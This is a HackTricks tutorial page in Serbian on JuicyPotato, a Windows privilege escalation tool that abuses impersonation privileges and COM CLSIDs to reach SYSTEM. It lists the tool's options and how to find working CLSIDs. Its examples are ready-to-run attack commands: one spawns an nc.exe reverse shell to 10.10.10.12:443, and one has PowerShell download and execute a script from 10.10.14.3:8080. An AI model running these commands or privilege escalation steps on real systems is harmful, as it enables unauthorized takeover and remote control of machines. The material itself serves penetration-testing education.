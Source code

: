 # JuicyPotato

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

{% hint style="warning" %}
**JuicyPotato ne radi** na Windows Serveru 2019 i Windows 10 verziji 1809 i novijim. Međutim, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) mogu se koristiti za **iskorišćavanje istih privilegija i dobijanje pristupa na nivou `NT AUTHORITY\SYSTEM`**. _**Proverite:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (zloupotreba zlatnih privilegija) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Šećerom obogaćena verzija_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, sa malo soka, tj. **još jedan alat za eskalaciju privilegija sa lokalnog Windows servisnog naloga na NT AUTHORITY\SYSTEM**_

#### Juicypotato možete preuzeti sa [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Rezime <a href="#summary" id="summary"></a>

[**Iz juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) i njegove [varijante](https://github.com/decoder-it/lonelypotato) koriste lanac eskalacije privilegija zasnovan na [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [servisu](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) koji ima MiTM slušaoca na `127.0.0.1:6666` i kada imate privilegije `SeImpersonate` ili `SeAssignPrimaryToken`. Tokom pregleda Windows build-a, otkrili smo postavku gde je `BITS` namerno onemogućen i zauzet je port `6666`.

Odlučili smo da oružamo [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Pozdravite Juicy Potato**.

> Za teoriju, pogledajte [Rotten Potato - Eskalacija privilegija sa servisnih naloga na SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) i pratite lanac veza i referenci.

Otkrili smo da, osim `BITS`-a, postoji nekoliko COM servera koje možemo zloupotrebiti. Samo trebaju:

1. biti instancirani od strane trenutnog korisnika, obično "servisnog korisnika" koji ima privilegije impersonacije
2. implementirati `IMarshal` interfejs
3. pokrenuti se kao privilegovan korisnik (SYSTEM, Administrator, ...)

Nakon nekih testiranja, dobili smo i testirali obimnu listu [interesantnih CLSID-ova](http://ohpe.it/juicy-potato/CLSID/) na nekoliko verzija Windows-a.

### Detalji o JuicyPotato <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato vam omogućava da:

* **Ciljajte CLSID** _izaberite bilo koji CLSID koji želite._ [_Ovde_](http://ohpe.it/juicy-potato/CLSID/) _možete pronaći listu organizovanu po OS-u._
* **COM slušajući port** _definišite COM slušajući port koji preferirate (umesto marshalled hardkodiranog 6666)_
* **COM slušajuća IP adresa** _vezivanje servera na bilo koju IP adresu_
* **Režim kreiranja procesa** _u zavisnosti od privilegija impersoniranog korisnika, možete birati između:_
* `CreateProcessWithToken` (zahteva `SeImpersonate`)
* `CreateProcessAsUser` (zahteva `SeAssignPrimaryToken`)
* `oba`
* **Proces za pokretanje** _pokrenite izvršnu datoteku ili skriptu ako eksploatacija uspe_
* **Argumenti procesa** _prilagodite argumente pokrenutog procesa_
* **Adresa RPC servera** _za prikriven pristup možete se autentifikovati na eksterni RPC server_
* **RPC server port** _korisno ako želite da se autentifikujete na eksterni server, a firewall blokira port `135`..._
* **TEST režim** _pretežno za testiranje, tj. testiranje CLSID-ova. Kreira DCOM i ispisuje korisnika tokena. Pogledajte_ [_ovde za testiranje_](http://ohpe.it/juicy-potato/Test/)

### Upotreba <a href="#usage" id="usage"></a>

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```

### Završne misli <a href="#final-thoughts" id="final-thoughts"></a>

[**Iz juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Ako korisnik ima privilegije `SeImpersonate` ili `SeAssignPrimaryToken`, onda ste **SYSTEM**.

Gotovo je nemoguće sprečiti zloupotrebu svih ovih COM servera. Možete razmisliti o izmeni dozvola ovih objekata putem `DCOMCNFG`, ali srećno, to će biti izazovno.

Stvarno rešenje je zaštita osetljivih naloga i aplikacija koje se izvršavaju pod nalozima `* SERVICE`. Zaustavljanje `DCOM` bi svakako sprečilo ovu eksploataciju, ali bi moglo imati ozbiljan uticaj na osnovni operativni sistem.

Izvor: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Primeri

Napomena: Posetite [ovu stranicu](https://ohpe.it/juicy-potato/CLSID/) za listu CLSID-ova koje možete isprobati.

### Dobijanje reverznog shell-a sa nc.exe

```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```

### Powershell rev

Powershell rev (Powershell reverese shell) je tehnika koja omogućava napadaču da uspostavi udaljenu vezu sa ciljnim računarom putem Powershell-a. Ova tehnika se često koristi za preuzimanje kontrole nad ciljnim sistemom i izvršavanje napadačevih komandi. Da biste koristili Powershell rev, morate prvo generisati Powershell skriptu koja će se izvršiti na ciljnom računaru. Ova skripta će uspostaviti vezu sa napadačevim serverom i omogućiti napadaču da preuzme kontrolu nad ciljnim sistemom. Powershell rev je moćan alat koji se često koristi u naprednim napadima na Windows sisteme.

```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```

### Pokrenite novi CMD (ako imate RDP pristup)

![](<../../.gitbook/assets/image (37).png>)

## Problemi sa CLSID-om

Često se podrazumevani CLSID koji JuicyPotato koristi **ne radi** i eksploatacija ne uspeva. Obično je potrebno više pokušaja da se pronađe **radni CLSID**. Da biste dobili listu CLSID-ova koje treba isprobati za određeni operativni sistem, trebali biste posetiti ovu stranicu:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Provera CLSID-ova**

Prvo, trebaće vam neki izvršni fajlovi osim juicypotato.exe.

Preuzmite [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) i učitajte ga u svoju PS sesiju, a zatim preuzmite i izvršite [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Taj skript će kreirati listu mogućih CLSID-ova za testiranje.

Zatim preuzmite [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(promenite putanju do liste CLSID-ova i do izvršnog fajla juicypotato) i izvršite ga. Počeće da isprobava svaki CLSID, a **kada se promeni broj porta, to će značiti da je CLSID uspeo**.

**Proverite** radne CLSID-ove **korišćenjem parametra -c**

## Reference

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitteru** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
